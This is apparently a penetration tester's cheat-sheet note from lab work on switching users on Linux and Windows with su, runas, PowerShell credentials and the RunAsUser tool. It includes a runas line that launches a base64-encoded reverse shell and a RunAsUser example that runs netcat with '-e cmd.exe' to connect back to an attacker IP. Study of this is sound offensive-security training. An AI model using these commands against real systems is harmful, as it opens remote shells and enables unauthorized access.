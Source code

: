 Sometimes we want to switch users without directly authenticating to a machine as them
## Linux
its ez
```bash
su -l <user>
# Enter password
```
## Windows

#### RunAs
This is the most convenient way but sometimes the shell we has is booty cheeks and this will not work because it requires us to enter the password in an interactive manner

```
# general usage
runas /user:<domain>\<user> cmd.exe

# revshell
runas /user:<domain>\<user> powershell.exe -e <base64_revshell>
```

#### Powershell
First spawn a powershell interactive shell

Usage
```powershell
$username = 'WORKGROUP\<user>'
$securePassword = ConvertTo-SecureString -AsPlainText -Force '<password>'
$credential = New-Object System.Management.Automation.PSCredential $username,$securePassword
Enter-PSSession -ComputerName localhost -Credential $credential
```

#### RunAsUser
https://github.com/atthacks/RunAsUser
solves issue with switching users on windows boxes

to use runas you need an interactive shell
	if you dont, you wont be able to authenticate with the user's password

Example usage
```powershell
.\RunAsUser.exe -u superadmin -p funnyhtb -f c:\users\public\nc.exe -a '10.10.14.12 9001 -e cmd.exe'
```